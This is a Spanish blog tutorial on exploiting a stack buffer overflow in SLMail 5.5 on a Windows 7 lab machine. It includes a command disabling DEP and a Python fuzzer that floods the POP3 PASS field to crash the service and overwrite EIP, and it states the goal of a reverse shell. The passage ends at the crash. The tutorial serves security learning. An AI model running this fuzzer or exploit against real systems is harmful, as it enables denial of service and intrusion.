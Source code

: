 ```yaml
---
layout: single
title: Stack Buffer Overflow en Windows
excerpt: "En este artículo vemos cómo explotar un stack buffer overflow en una aplicación vulnerable llamada SLMail corriendo en una máquina virtual con windows 7 x86."
date: 2021-02-13
classes: wide
header:
  teaser: /assets/images/Stack-Buffer-Overflow-Windows/buffer-overflow-windows.jpg
  teaser_home_page: true
categories:
  - Buffer-Overflow
tags:
  - Buffer Overflow
  - Python
  - Pentesting
---
```


![](/assets/images/Stack-Buffer-Overflow-Windows/buffer-overflow-windows.jpg)

En este artículo veremos cómo explotar un buffer overflow en una aplicación vulnerable llamada SLMail corriendo en una máquina virtual Windows 7 x86.

Primero quiero agradecer a s4vitar por su tutorial y por servirme de inspiración.

Necesitaremos una máquina virtual con windows 7 x86, el software SLMail v5.5, inmunity debuguer y mona.py para añadir funcionalidades al debuguer.

Links de descarga:

[SLMail 5.5](https://slmail.software.informer.com/5.5/)<br>
[Inmunity debuguer](https://www.immunityinc.com/products/debugger/)<br>
[Mona.py](https://github.com/corelan/mona/blob/master/mona.py)<br>

Instalaremos SLMail y inmunity debuguer en la máquina windows, y luego añadiremos mona al inmunity debuguer. Para ello descargaremos el script y lo colocaremos en la ruta C:\Program Files\Inmunity Inc\Inmunity Debuguer\PyCommands\.

Además tendremos que crear reglas en el firewall de windows para permitan el tráfico en los puertos 25 y 110. Y por último deshabilitar el DEP con el siguiente comando ejecutado como administrador:

`bcdedit.exe /set {current} nx AllwaysOff`

Cuando tengamos esto ya podemos empezar a practicar.

Si lanzamos un nmap a la ip de la máquina tiene que responder con los puertos 25 y 110 abiertos, entre otros.

![](/assets/images/Stack-Buffer-Overflow-Windows/nmap-slmail.png)

En la máquina windows siempre ejecutaremos las aplicaciones SLMail y inmunity debuguer como administrador. Abrimos las dos aplicaciones, en el debuguer pulsamos en File/Atach, seleccionamos el proceso SLmail, y pulsamos en el icono Run Program o pulsamos F9.

![](/assets/images/Stack-Buffer-Overflow-Windows/slmail.png)

![](/assets/images/Stack-Buffer-Overflow-Windows/inmunity.png)

En este punto si hacemos un searchsploit slmail vemos que hay varios exploits que se aprovechan del campo PASS en el momento de la autenticación. Con lo cual el campo vulnerable es PASS.

![](/assets/images/Stack-Buffer-Overflow-Windows/searchsploit-slmail.png)

## Explicación sencilla del stack buffer overflow

Una explicación sencilla sería la siguiente. Cuando alguien se autentica contra el SLMail, tiene que introducir lógicamente un usuario y contraseña. Bien pues en el campo PASS no se está controlando la cantidad de bytes que puede aceptar, con lo cual si nosotros le pasamos más de los que tiene definidos a nivel de código se producirá un desbordamiento de memória, y estaremos sobreescribiendo partes de la memória que no deberian de tomar esos valores para una ejecución normal del programa.

Se trata de tomar el control del registro EIP, que siempre apunta a la próxima dirección de memoria a ejecutar, para que el flujo del programa se desplace hasta la dirección que nosotros queramos, donde habremos sobreescrito los valores de esas direcciones con nuestro shellcode, que nos lanzará una reverse shell y nos conectará a la máquina victima.

## Exploit inicial

Empezamos con el exploit. Crearemos un script en python que se conectará a la máquina windows en el puerto 110 y le pasará un usuario, y en el campo PASS le iremos pasando el carácter "A" muchas veces para ver cuando corrompe el programa.

El código es el siguiente:

```python
#!/usr/bin/python
#coding: utf-8

from pwn import *
import socket, sys

if len(sys.argv) < 2:
        print "\n[!] Uso: python " + sys.argv[0] + " <ip_address>\n"
        sys.exit(0)

#Variables globales
ip_address = '192.168.1.20'
rport = 110

if __name__ == '__main__':
        buffer = ["A"]
        contador = 350

        while len(buffer) < 32:
                buffer.append("A"*contador)
                contador += 350


        p1 = log.progress("Data")


        for strings in buffer:

                try:
                        p1.status("Enviando %s bytes" % len(strings))
                        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
                        s.connect((ip_address, rport))

                        data = s.recv(1024)

                        s.send("USER ximo\r\n")
                        data = s.recv(1024)
                        s.send("PASS %s\r\n" % strings)
                        data = s.recv(1024)

                except:
                        print "\n[!] Ha habido un error de conexión\n"
                        sys.exit(1)

```

El exploit le pasará nuestras "A" en el campo PASS de 350 en 350, la primera vez una "A", la segunda 350 "A", la tercera 700 "A", etc. También podremos ver cuantas "A" necesitamos pasarle para que se detenga la ejecución del programa y provocar una denegación de servicio.

Ejecutamos el exploit y vemos lo que sucede en el inmunity debuguer. Podemos ver que se ha corrompido el programa porque hemos sobreescrito direcciones de memória, incluido el registro EIP que ahora apunta a la dirección 0x41414141, que son nuestras "A", y al no ser una dirección válida se detiene el flujo de ejecución.

![](/assets/images/Stack-Buffer-Overflow-Windows/exploit-inicial.png)

Vemos en la salida por pantalla de la ejecución del exploit que al enviar 2800 "A" es cuando desbordamos el tamaño del buffer, se sobreescribe el EIP y el programa no puede continuar porque la dirección 0x41414141 que son nuestras "A" no apunta a ninguna dirección de memória válida.



